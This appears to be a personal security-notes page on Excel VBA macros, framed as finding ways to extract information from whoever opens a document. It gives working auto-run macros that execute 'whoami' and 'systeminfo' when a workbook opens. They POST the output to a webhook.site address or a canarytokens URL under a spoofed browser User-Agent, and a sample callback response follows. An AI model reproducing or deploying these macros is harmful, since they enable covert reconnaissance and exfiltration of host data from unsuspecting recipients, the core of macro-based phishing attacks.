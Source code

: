# Microsoft Macros

## Introduction

Macros on Microsoft app \(Word, Excel, etc.\) allow a user to run Visual Basic Code in the background of a document. This section of my website will be dedicated to playing around with macros, and finding ways to extract information from the client.

## Setup

In order to create a Excel file that we are able to create macros, we will have create a file with an extension of ".xlsm". This version of Excel has macros enabled, and will allow us to make and edit macros on it. This file version should be standard in Excel, so in order to do this, you just have to create a file and save it in the ".xlsm" format. Under the View tab, you will see Macros, and from there you can edit the macros.

## Popup Message

We can create a popup message that will appear when somebody enables the macros when they first open the document.

```cpp
'Code gotten from https://analysistabs.com/excel-vba/run-macro-automatically-opening-workbook/'
Sub Auto_Open()
    Msgbox "Popup Message Here"
End Sub
```

## Print Desktop Name

We can use the Visual Basic code to display the name of the Desktop to the screen when macros are enabled.

```csharp
'Source: https://www.youtube.com/watch?v=e2icQFxhp3w'
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    MsgBox (Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

We have to copy this code under Microsoft Excel Objects in order to get it to work.

![On the right top we can see where the code will be edited](../.gitbook/assets/screenshot-2021-03-06-150627.png)

After this you can save and exit the Excel file. When you open it again, there should be a popup with the Desktop name.

## System Information Exfiltration

This code is meant for Windows systems \(tested on Windows 10\), and sends the output of the "systeminfo" command on Windows to an external website, where you can read it by entering your own web-hook link. The client will notice the Command Prompt pop up for this code.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("systeminfo")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "your https://webhook.site link"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

## Integrating Canary Tokens

Canary Tokens are a way to track an IP address when they do a certain task. This could be accessing a website or even requesting a DNS hostname. We can use the previous code and incorporate a Canary Token into it.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "http://canarytokens.com/static/about/your_own_token/contact.php"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

In line 6, we can see the canary token being used. Once we access the token, it then sends the information to the email or web-hook we have used initially. Our output should look like this:

```csharp
{
  "manage_url": "https://canarytokens.org/manage?token=Took_this_out&auth=Took_this_out",
  "memo": "Website Accessed ",
  "additional_data": {
    "src_ip": "Your IP",
    "useragent": "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)",
    "referer": null,
    "location": null
  },
  "channel": "HTTP",
  "time": "2021-03-07 20:25:36 (UTC)"
}
```

